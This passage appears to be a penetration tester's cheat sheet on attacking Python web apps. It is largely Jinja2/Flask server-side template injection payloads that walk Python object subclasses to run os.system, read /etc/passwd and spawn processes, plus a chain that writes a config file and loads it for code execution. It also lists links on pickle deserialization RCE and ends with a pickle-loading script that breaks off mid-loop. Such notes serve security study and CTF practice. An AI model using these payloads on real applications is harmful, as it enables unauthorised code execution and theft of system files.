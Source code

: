 - Common interesting functions:  
  - catch_warnings: `s.__class__.__base__.__subclasses__()[100]._module.__builtins__['__import__']('os').system("date")`
  - read: `s.__class__.__base__.__subclasses__()[100]('/etc/passwd').read()`
  - popen: `s.__class__.__base__.__subclasses__()[100](["/usr/bin/touch","/tmp/example"])`
- Common sinks:
  - `flask.render_template_string(source, **context)`
- Vars:
  - `request`
  - `session`
  - `config`
  - `g` - globals
  - May bruteforce with <https://raw.githubusercontent.com/albinowax/SecLists/9309803f3f7d5c1e0b2f26721c1ea7ef36eeb1c8/Discovery/Web_Content/burp-parameter-names>
  - <https://flask.palletsprojects.com/en/1.0.x/templating/#standard-context>
  - <https://jinja.palletsprojects.com/en/master/templates/#builtin-globals>
- First, inject something like {{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('<malicious code here>'') }} into the SSTI vulnerability. Then, invoke the compilation process by injecting {{ config.from_pyfile('/tmp/owned.cfg') }}. The code will execute upon compilation. <https://www.lanmaster53.com/2016/03/11/exploring-ssti-flask-jinja2-part-2/>

**Challenges**

- <https://www.hackingnote.com/en/python-challenge-solutions/level-5>

**Tools**

- ZipApps - similar to JAR 
- pipX - pip with virtual env
- Shiv - Modified ZipApp to work with C extensions
- Packaging: The bible of packaging python apps in docker

**Attack Vectors**
- Exploiting Imports - It is possible to create a `.py` file named with the name of the import. This will load the local file (same dir as the file importing the library) instead of the actual library.
- cPickle RCE
  - [Arbitrary code execution with Python pickles](https://checkoway.net/musings/pickle/)
  - [Python Pickle Injection](http://xhyumiracle.com/python-pickle-injection/)
  - <https://penturalabs.wordpress.com/2011/03/17/python-cpickle-allows-for-arbitrary-code-execution/>
  - <https://blog.nelhage.com/2011/03/exploiting-pickle/>
  - <https://stackoverflow.com/questions/38307636/can-anyone-explain-me-the-example-of-an-exploit-in-python-s-pickle-module>
  - HTB - DevOps
  - HTB - Challenge - Mics - Long Bottom's Locker
  - <https://www.hackingnote.com/en/python-challenge-solutions/level-5>
- Pickle formats: <http://spootnik.org/entries/2014/04/05/diving-into-the-python-pickle-formatt/index.html>

```python
#!/usr/bin/python3
import sys
import pickle

f = open(sys.argv[1], 'rb')
mydict = pickle.load(f)
f.close

for line in mydict:
    print("".join([k * v for k, v in line]))

for i in mydict:
    b=[]
    for x in i:
        #print x
```